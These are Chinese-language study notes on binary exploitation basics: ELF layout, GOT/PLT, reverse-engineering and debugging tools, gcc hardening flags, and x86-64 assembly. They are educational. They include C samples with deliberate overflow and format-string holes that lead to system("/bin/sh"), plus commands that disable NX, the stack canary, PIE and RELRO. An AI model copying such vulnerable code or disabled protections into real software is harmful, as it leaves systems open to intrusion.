### 常见概念

#### 二进制文件

##### c编译的过程

* .c--预处理-->.i--编译-->.s--汇编-->.o--链接-->.exe
  * 预处理是将#include #define #if 等预处理指令进行展开和翻译，删除注释，添加行号和文件标识，仍然看的出是C的代码
  * 编译是将.i文件编译成汇编代码
  * 汇编是将汇编代码会变成二进制代码
  * 链接是将不同模块的二进制代码连接起来，链接由链接器完成，需要完成符号解析（将函数 变量的引用与其定义相关联）和重定位（零散模块汇编成二进制代码后，其中函数、变量的地址往往是一个临时设定的无效值，因为单独某个模块不是完整程序，重定位就是在多个模块组成完整程序后，将它们的无效地址转为有效地址）

```shell
# -save-temps保存产生的中间文件，--verbose在编译时输出流程
gcc hello.c -o hello -save-temps --verbose

gcc -E hello.c -o hello.i

gcc -S hello.c -o hello.s

gcc -c hello.c -o hello.o
```

##### PE

windows PE

* exe
* dll 动态
* lib 静态

##### ELF文件

* .out 可执行
* .so 动态
* .a 静态

ELF结构

* .elf
  * header 1/2
    * ELF  header 记录了整个文件的结构分布
    * progaram header table 段表（段：程序加载后，读写执行权限划分；节：不同功能的划分）
  * sections
    * code 大类
    * data 大类
    * sections‘ name
  * header 2/2
    * section header table 记录了各个节的信息

##### 段与节


* 从磁盘到内存，多个节变为一个段
* 代码段
  * .text
  * .rodata
  * 等
* 数据段
  * .data
  * .got
  * 等
* .init和.fint
  * .init段的代码在main之前调用
  * .fint段的代码在main之后调用

* 常用段名



##### got&plt

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 

int do_func(){
	char b[8] = {};
    write(1, "input:",6);
    read(0,b,0x100);
    return 0;
}


int main(){ 
	do_func();
    return 0;
}
```

* 查看write的调用过程

```assembly
.text:0000000000401156                 endbr64
.text:000000000040115A                 push    rbp
.text:000000000040115B                 mov     rbp, rsp
.text:000000000040115E                 sub     rsp, 10h
.text:0000000000401162                 mov     [rbp+buf], 0
.text:000000000040116A                 mov     edx, 6          ; n
.text:000000000040116F                 mov     esi, offset aInput ; "input:"
.text:0000000000401174                 mov     edi, 1          ; fd
.text:0000000000401179                 call    _write
.text:000000000040117E                 lea     rax, [rbp+buf]
.text:0000000000401182                 mov     edx, 100h       ; nbytes
.text:0000000000401187                 mov     rsi, rax        ; buf
.text:000000000040118A                 mov     edi, 0          ; fd
.text:000000000040118F                 call    _read
.text:0000000000401194                 mov     eax, 0
.text:0000000000401199                 leave
.text:000000000040119A                 retn

; write指向如下地址，为plt，本质上是一段跳转代码
.plt.sec:0000000000401050                 endbr64
.plt.sec:0000000000401054                 bnd jmp cs:off_404018 ; jmp [off_404018] 
.plt.sec:0000000000401054 _write          endp

; cs可以忽略，汇编伪指令前缀，表示段前缀
; off_404018 是GOT表项，指向连接器的延迟绑定入口（静态分析时，指向的地址仍是占位符，*off_404018的值会在运行时通过ld解析获取，然后指向_dl_runtime_resolve），在解析完成后，这个地址会被替换为真正的libc.write
; off_404018是ida变量化的表示，实际上是[$rip+0x2fbd]
; 0x2fbd这个偏移量是链接器（如 ld）在生成 .plt 表项时计算出来的，是 .got.plt[write] 相对于当前指令地址的偏移
.got.plt:0000000000404018 48 40 40 00 00…off_404018      dq offset write         ; DATA XREF: _write+4↑r

; 第一次运行write之前，write指向的地址是_dl_runtime_resolve
extern:0000000000404048                ; ssize_t write(int fd, const void *buf, size_t n)
extern:0000000000404048 00 00 00 00 00                 extrn write:near        ; CODE XREF: _write+4↑j
extern:0000000000404048 00 00 00                                               ; DATA XREF: .got.plt:off_404018↑o
```

##### 其他问题

* 链接器产生的是虚拟地址吗？
  * 是的
* 动态链接库和静态链接库的区别？
  * 链接时是将多个模块链接在一起组成完整程序，静态链接库(.a后缀  -static选项生产  gcc默认生成动态库)的二进制代码将会被链接加入最终的可执行文件中，多个程序需要同一个静态链接库，都需要把它的代码链接入自身；而动态链接库（.so后缀  -shared生产共享库）则是一个在内存中的公共模块，任何程序需要这个库时，无需把它链接进自身程序，而是在操作系统把它装在进内存后调用即可，多个程序需要同一个动态链接库，内存中也只需要加载一份而已。
* PIC（位置无关代码）
  * -fpic参数产生，这是共享链接库必须有的属性；（暂时未理解）

#### 段和节


* Data段
  * .data
  * .bss：glb,未初始化变量，磁盘上不占用空间，内存中要分配空间
* Code段
  * .text：hello world!虽然是数据，但写死只读，放在代码段；main、sum

* Stack：t、ptr局部变量
* Heap：

#### 符号表

#### 大端序、小端序

* 小端序：低地址对低地址，高地址对高地址。
* 大端序

#### 程序的装载与执行


* lea

#### 内存空间

* 64位内存寻址空间
  * 理论上：0xffffffffffffffff 
  * 实际上：0x0000ffffffffff 为256T大小，因为实际上受到48位总线的限制
* 注意面两种图的区别，第一张的kernel部分对应第二张的陷阱表及以后的内容





#### 程序偏移地址和绝对地址

* 绝对地址





* 从main函数的偏移地址计算得到绝对地址





#### 编译

* 静态编译不会链接libc中的所有.o

#### C语言

* 注册代码到.init和.fint

```c
#include <stdio.h>

__attribute__((constructor))
void my_init() {
    printf("Init code executed before main()\n");
}

__attribute__((destructor))
void my_fini() {
    printf("Fini code executed after main() or exit()\n");
}
```

```c
#include <stdio.h>

void my_init_func(void) {
    printf("Init via .init_array\n");
}

void my_fini_func(void) {
    printf("Fini via .fini_array\n");
}

// 把函数指针放入 init/fini array 段
__attribute__((section(".init_array"))) void (*my_init_ptr)(void) = my_init_func;
__attribute__((section(".fini_array"))) void (*my_fini_ptr)(void) = my_fini_func;

```

```c
__asm__(".section .init\n\t"
        "call my_init_func\n\t"
        ".section .fini\n\t"
        "call my_fini_func\n\t");
```


* 内嵌汇编代码

```c
// 使用 GCC 的 __asm__ 内联汇编（适用于简单代码）
#include <asm/unistd.h>  // 允许使用宏


int add(int a, int b) {
    int result;
    __asm__ (
        "addl %%ebx, %%eax;"     // eax += ebx
        : "=a" (result)          // 输出到 result，用 eax 返回
        : "a" (a), "b" (b)       // 输入 a -> eax，b -> ebx
    );
    return result;
}
```

```c
// 单独编译汇编代码，链接时加入
// main.c
#include <stdio.h>

extern int my_asm_func(int a, int b);

int main() {
    int result = my_asm_func(10, 20);
    printf("Result = %d\n", result);
    return 0;
}

```

```assembly
    .global my_asm_func
    .type my_asm_func, @function

my_asm_func:
    movl %edi, %eax        # 将第一个参数（a）移动到 eax
    addl %esi, %eax        # 将第二个参数（b）加到 eax
    ret

```

```shell
as -o asmfunc.o asmfunc.s
gcc -o main main.c asmfunc.o
```

### 基本工具

#### file

* 基本介绍：主要用于检测给定文件的类型，包含文件系统、魔法幻数和语言三个检测过程

* 基本命令

```shell
# 一般都是直接用，常用的选项有两个，-z和-L，-z是检测压缩文件的内容，-L解析软链接指向的文件
file filename
```


#### dd

* 基本介绍：主要用于复制文件并对源文件的内容进行转换和格式化处理
* 常用命令

```shell
# if和of分别指定文件的输入输出以替代标准输入输出
# bs指定读入或写入的块大小（字节为单位），count指定复制几块
# bs单独使用时就是每一次读取多大
dd if=/dev/zero of=output_file bs=lk count=1

# skip指定输入开始的位置，seek指定写出开始的位置
# conv用于指定转换选项
# 下面的文件是经典的打印hello world
# 打印出hello world在哪一行
string -t d hello | grep "hello world"
printf "bye world" | dd of=hello bs=1 seek=行数 conv=notrunc


# 测试磁盘吞吐量
dd if=/dev/zero of=here bs=1G count=1 oflag=direct
dd if=/dev/sdb1 of=/dev/null bs=1G count=1
```


#### ldd

* 基本介绍：用于打印程序或者库文件所以来的共享库列表，该命令是一个shell脚本而不是可执行文件。而且它的工作原理会调用可执行程序，因此要确保程序安全后使用。
* 常用命令

```shell
# 两个常用选项 -v和-r，-r用于执行数据和函数的重定位，以确定是否有符号和函数丢失；-v用于打印详细信息
```

#### objdump

* 基本介绍：用于查看目标文件信息，具有依赖于ELF节头的反汇编能力
* 常用命令

```shell
# -h, --[section-]headers 展示某个节的头部内容
# -d, --disassemble 
# -D, --disassemble-all -d和-D，反汇编
# -t, 显示符号表
# -R, 显示动态的重定向入口
# -j, --section=NAME 选定节 
# -s，十六进制打印

# 下图的-M是明确指定目标的架构
```


#### readelf

* 基本介绍：用于解析ELF格式文件的信息，该工具与objdump类似，但内容更具体，不依赖BFD库
* 常用命令：

```shell
# -h 展示ELF文件头信息
# -l 程序头信息
# -S 节区头信息
# -e 等价于-h -l -S
# -s 符号表
# -dyn-syms 动态符号表
```

#### strip

* 基本介绍：去除目标文件中符号和节的信息，减少目标文件大小
* 常用命令：

```shell
# -s/不加任何选项 去除所有符号和重定位信息，和gcc编译时的-s效果相同，不能对.o .a文件使用
# -g 去除调试信息和节信息
```


#### strings

*  基本介绍：在二进制文件中查找可打印字符
* 常用命令：

```shell
# -d 仅检索数据部分
# -n num 指定字符序列的最小长度，默认为4
# -t o/d/x 打印字符所在位置(8 10 16进制)
# -e s/S/b/l/B/L 
```

#### xxd

* 基本介绍：将二进制文件以十六进制显示
* 常用命令：

```shell
# -o 加地址偏移
# -s 选定从某个偏移地址开始
# -l 指定显示多少个字节
# -c 指定一行显示多少个字节
# -g 将十六进制分组显示
# -i 则将十六进制代码赋值给c语言数组
# -r 将十六进制文件反向dump为二进制
```


#### strace&ltrace

```shell
# 查看用户级别系统调用
strace a.exe 

# 查看进程系统调用
strace -e trace=write,openat -p 16371 2>&1

strace -f -e trace=network -o trace.log ./your_program arg1 arg2
```

#### nm

* 符号表查看工具s

#### ROPgadget

```shell
ROPgadget --binary ./a.out --only "pop|ret"

ROPgadget --binary ./a.out | grep 'pop rdi ; ret'
```


### 调试工具

#### GDB

#### gef

  gef是gdb的一个增强插件，大多数情况下我们都是在gef或者其他增强插件的环境下进行调试，这些插件在保留了gdb原有功能的情况下，还提供了不同的增强功能。

##### 安装：

```shell
git clone https://github.com/hugsy/gef.git

# 在~/.gdbinit中添加
source /home/clone路径/gef.py
```

##### 基本功能

在进行调试之前，使用gcc编译的程序要添加-g选项，在最终可执行程序中保留调试信息

```shell
# -m32表明编译为32位程序，-g表明可执行程序保留调试信息
gcc -m32 -g hello.c -o hello
```

##### 源代码相关

```gdb
 # 查看源代码 1-6行
 l 1,6
```

##### 查看可执行程序相关信息

```gdb
# 查看保护机制
checksec

# 搜索字节
search-pattern 0xf63148d23148

# 内存地址和权限
vmmap
```

##### 调试相关

```gdb
# 运行到gdb认为的程序入口点
start

# 第2行下断点;在指定之地下断点
b 2
b *0x00000000000000001

# 删除第1个断点
del 1

# 查看断点信息
info b

# 激活第1个断点
enable 1

# 禁用第1个断点
disable 1

# 运行程序
r

# 继续运行
c

# 单步不进入函数，n默认为1
ni n

# 单步进入函数
si n

# 跳过执行n个函数？？，默认为1
skip n

# 跳转到指定位置
jump *addrw

# 跳出当前函数
finish

# 回退指令
rsi

# 回退源代码行
rni

# 打印变量值，打印变量地址，打印地址对应变量，打印地址对应值
p arg1
p &arg1
p (int *) 0xffffd038
p *(int *) 0xffffd038
```

##### 运行时的信息

```gdb
list
这个命令将显示当前位置周围的源代码。你也可以指定要显示的特定行数，例如 list 1, 10。

disassemble /m
这个命令会显示当前函数的汇编代码，包括当前行。


info frame
这个命令将显示当前的栈帧信息，包括局部变量和函数参数。


info registers
这个命令将显示当前寄存器的值。


backtrace
或者简写为 bt，这个命令会显示函数调用堆栈。

查看变量的值：
print variable
```

##### 反汇编相关

```gdb
# 反汇编main函数，这里的main相当于是地址，还可以使用指针、寄存器（）、地址值等
disassemble main

# x = 十六进制 d = 十进制 u = 无符号十进制 c = 字符 s = 字符串 i = 反汇编指令
# b = 1字节 (byte) h = 2字节 (halfword) w = 4字节 (word) g = 8字节 (giant)
x/<个数><格式><单位> 地址

# 查看指定地址字符串
x/s 地址

# 查看指定地址的DWORD，20表示查看20个
x/20wx 地址

# 单字节查看，16表示查看16个字节
x/16c 地址
x/x

x/32bx $rbp-0x20
```

##### set

```shell
set {int}0x60104c = 123          # 将地址 0x60104c 处的 int 值改为 123
set {char}0x601050 = 'A'         # 将地址 0x601050 改为字符 A
set {char[5]}0x601060 = "abcd"   # 写入字符串

set $rsp = 0x7fffffffe000     # 修改栈指针
set {void*}($rsp) = 0xdeadbeef

set disassembly-flavor intel # 设置指令风格
```


### 编译工具

#### nasm

  ```shell
  # 适用于x86-64架构 生成.o文件
  nasm -f elf64 myprogram.asm  
  ```

#### ld

```shell
# -m指定架构 -s表明删除调试信息 -o表示生成指定文件名的可执行文件
ld -m elf_i386 -s -o Welcome_to_CTFshow Welcome_to_CTFshow.o
```

#### gcc

```shell
# -g保留调试信息,-m32编译成32位程序
gcc -m32 -z execstack -fno-stack-protector -no-pie -fno-pic -z norelro format.c -o format.out -g
```

* NX：-z execstack / -z noexecstack (关闭 / 开启)    不让执行栈上的数据，于是JMP ESP就不能用
* Canary：-fno-stack-protector /-fstack-protector / -fstack-protector-all (关闭 / 开启 / 全开启)  栈里插入cookie信息
* PIE：-no-pie / -pie (关闭 / 开启)   地址随机化，另外打开后会有get_pc_thunk
* RELRO：-z norelro / -z lazy / -z now (关闭 / 部分开启 / 完全开启)  对GOT表具有写权限
* -fno-pic/-pic 关闭/开启位置无关代码

```shell
# 将编译的可执行文件命名为 output
gcc source.c -o output
# 保留过程中产生的文件
gcc -save-temps source.c -o executable
```

##### -no-pie

* `-no-pie`的作用是关闭pie
* **PIE（Position Independent Executable）**：即位置无关可执行文件，它是一种针对可执行文件的编译和链接方式。使用这种方式生成的可执行文件，其代码和数据的位置在运行时能够动态确定，而非固定不变。
* PIE 的作用主要是配合 **ASLR（地址空间布局随机化）** 安全机制。启用 PIE 后，程序的代码段在每次运行时可以被加载到不同的地址，从而增加攻击者构造精确攻击的难度。
* 在**位置无关代码（PIC）** ，不能使用绝对地址访问数据，只能使用 **相对地址**，get_pc_thunk用于中辅助获取当前指令的地址

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 
char sh[]="/bin/sh"; 

int init_func(){
	setvbuf(stdin,0,2,0); 
	setvbuf(stdout,0,2,0); 
	setvbuf(stderr,0,2,0); 
	return 0;
}

int func(char *cmd){ 
	system(cmd); 
	return 0; 
}

int main(){ 
	init_func(); 
	char a[8] ={}; 
	char b[8] ={}; 
	puts("input: ");
	gets(a);

	printf(a); 
	if(b[0]=='b'){
		func(sh);
	}
	return 0; 
}

```

分别带选项和不带选项编译

```shell
gcc  sh.c -o a.out
```

* 静态反编译时，注意call函数时的地址，不像一个真实地址：



* 动态调试时，地址和刚刚不一样，结合每条指令前的地址看，显然更像真实地址：



```shell
gcc -no-pie sh.c -o b.out
```

* 静态和动态情况下，call的地址一致





##### -fomit-frame-pointer

* `-fomit-frame-pointer` 是 GCC 编译器的一个优化选项，用于**省略帧指针（Frame Pointer，通常为 `RBP`/`EBP` 寄存器）**，从而提升程序性能，但会牺牲部分调试和栈回溯能力。
* 简单来说，开启后，栈仅由`rsp`寄存器维护，这使得函数可以省略部分指令以提高效率

### 汇编语言下amd

#### 寄存器相关


* amd64的寄存器结构
  * rax 8bytes
    * eax 4bytes 低四位
      * ax 2bytes 低两位
        * ah 1bytes
        * al 1bytes
* 通用寄存器（32位）：这些寄存器没有特殊用途，可交由程序随意使用，但有它们的常用用途
  * ax：通常用于执行加法，函数的返回值一般也放在这里

  * bx：数据存取

  * cx：作为计数器，for循环

  * dx：读写IO端口，dx存放端口号

  * sp：栈顶指针

  * bp：栈底指针

  * si：字符串操作时，用于存放数据源的地址

  * di：字符串操作时，用于存放目的地址

  * 64位还引入了r8-r15八个通用寄存器

* 标志寄存器

| 位   | 名称             | 缩写 | 含义                                |
| ---- | ---------------- | ---- | ----------------------------------- |
| 0    | Carry Flag       | CF   | 运算产生了进位（用于无符号数）      |
| 2    | Parity Flag      | PF   | 运算结果的最低字节中 1 的个数为偶数 |
| 4    | Auxiliary Carry  | AF   | BCD 运算中使用                      |
| 6    | Zero Flag        | ZF   | 运算结果是否为零                    |
| 7    | Sign Flag        | SF   | 运算结果是负数？（看最高位）        |
| 8    | Trap Flag        | TF   | 单步调试标志（少见）                |
| 9    | Interrupt Enable | IF   | 是否允许中断                        |
| 10   | Direction Flag   | DF   | 控制字符串指令的方向（前进/后退）   |
| 11   | Overflow Flag    | OF   | 溢出（用于有符号数）                |

#### 寻址方式

* 立即数寻址：mov DX, 1234H，把一个数直接在指令里给出，然后把这个数复制给目标操作数，一般在赋初值时使用
* 寄存器寻址：mov AX, BX
* 存储器寻址：
  * 直接寻址：mov AX, [3000H]，直接在指令里给出源操作数偏移地址，默认为DS段，也可显示设置其他段mov AX, ES:[3000H]
  * 间接寻址：将地址放在BX、BP、SI、DI这四个寄存器中。BP默认存放堆栈段SS的地址，其他默认段是数据段DS。mov AX, [BX]
  * 基址寻址（寄存器相对寻址）：mov AL, [BX+5]，只能使用BX和BP
  * 变址寻址（寄存器相对寻址）：mov AH, [SI+5]，只能使用SI、DI，默认段是DS，常用于数组操作
  * 基址变址：mov AX, [BX+SI]
  * 带位移的基址变址：mov AX, [BX+SI+0002H]

#### 指令

##### JCC系列

| 指令          | 含义                                | 条件          | 说明                 |
| :------------ | :---------------------------------- | :------------ | :------------------- |
| `JE` / `JZ`   | Jump if Equal / Zero                | ZF=1          | 相等或结果为0时跳转  |
| `JNE` / `JNZ` | Jump if Not Equal / Not Zero        | ZF=0          | 不相等时跳转         |
| `JG` / `JNLE` | Jump if Greater / Not Less or Equal | ZF=0 且 SF=OF | 有符号 大于          |
| `JGE` / `JNL` | Jump if Greater or Equal / Not Less | SF=OF         | 有符号 大于等于      |
| `JL` / `JNGE` | Jump if Less / Not Greater or Equal | SF≠OF         | 有符号 小于          |
| `JLE` / `JNG` | Jump if Less or Equal / Not Greater | ZF=1 或 SF≠OF | 有符号 小于等于      |
| `JA` / `JNBE` | Jump if Above / Not Below or Equal  | CF=0 且 ZF=0  | 无符号 大于          |
| `JAE` / `JNB` | Jump if Above or Equal / Not Below  | CF=0          | 无符号 大于等于      |
| `JB` / `JNAE` | Jump if Below / Not Above or Equal  | CF=1          | 无符号 小于          |
| `JBE` / `JNA` | Jump if Below or Equal / Not Above  | CF=1 或 ZF=1  | 无符号 小于等于      |
| `JC`          | Jump if Carry                       | CF=1          | 有进位（无符号溢出） |
| `JNC`         | Jump if Not Carry                   | CF=0          | 无进位               |
| `JO`          | Jump if Overflow                    | OF=1          | 溢出                 |
| `JNO`         | Jump if Not Overflow                | OF=0          | 未溢出               |
| `JS`          | Jump if Sign                        | SF=1          | 负数                 |
| `JNS`         | Jump if Not Sign                    | SF=0          | 非负                 |
| `JP` / `JPE`  | Jump if Parity / Parity Even        | PF=1          | 奇偶标志             |
| `JNP` / `JPO` | Jump if Not Parity / Parity Odd     | PF=0          |                      |

##### BYTE WORD DWORD QWORD

* 定义常量 `db dw dd dq`

| 伪指令 | 含义                            |
| ------ | ------------------------------- |
| `db`   | Define Byte（定义1字节）        |
| `dw`   | Define Word（定义2字节）        |
| `dd`   | Define Double Word（定义4字节） |
| `dq`   | Define Quad Word（定义8字节）   |

```assembly
section .data
var1 db 0x41        ; 定义一个字节（A）
var2 dw 0x1234      ; 定义两个字节（16 位）
var3 dd 0x12345678  ; 定义四个字节（32 位）
var4 dq 0x1122334455667788 ; 64 位数据

str1 db 'hello', 0  ; 定义字符串，0 是字符串结束符（C 风格）
```

* BYTE WORD DWORD QWORD 表示操作的数据大小

```assembly
mov byte [eax], 0xFF ;将 0xFF（一个 8 位的值）写入 eax 指向的内存地址中，仅写入一个字节
mov word [eax], 0xABCD ;这表示：将 0xABCD（一个 16 位的值）写入内存地址 [eax] 处，占用 2 个字节。
```

##### 一段汇编代码学习push lea call等指令

| 指令                  | 含义                                                         | 背后逻辑/目的    |
| --------------------- | ------------------------------------------------------------ | ---------------- |
| `sub esp, 0xc`        | 减栈指针，预留调用空间                                       | 对齐 or 临时空间 |
| `lea eax, [ebp-0x1c]` | 将变量 `a` 的地址即`ebp-0x1c`的结果加载到 `eax`              | 获取参数地址     |
| `push eax`            | 将地址作为参数压入栈，实际上等同于`esp = esp - 4;[esp] = eax` | 给 `gets()` 用   |
| `call gets@plt`       | 在调用前，push rip;jump func；`cdecl`协议（32位古老程序），linux x86:**参数从右到左**压栈（一个参数也一样）;**通过栈**传参;返回值在 `eax` 中;调用者清理参数；x86-64 System V ABI（64位），前六个参数依次通过`RDI`、`RSI`、`RDX`、`RCX`、`R8`、`R9`传递，更多参数通过栈传递 | 执行用户输入     |
| `add esp, 0x10`       | 恢复栈空间                                                   | 栈平衡（cdecl）  |

```c
#include <stdio.h>
